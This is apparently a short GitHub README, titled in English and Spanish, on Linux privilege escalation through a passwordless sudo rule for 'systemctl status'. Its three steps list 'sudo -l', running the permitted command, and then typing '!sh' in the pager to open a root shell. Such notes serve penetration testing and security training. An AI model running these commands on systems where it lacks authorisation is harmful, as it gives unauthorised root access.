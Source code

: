 # Sudo-Systemctl-Privilege-Escalation-linux
Escalada de privilegios de Sudo Systemctl linux


1) sudo -l
# output
(ALL) NOPASSWD: systemctl status example.service

2) sudo systemctl status example.service
3) !sh
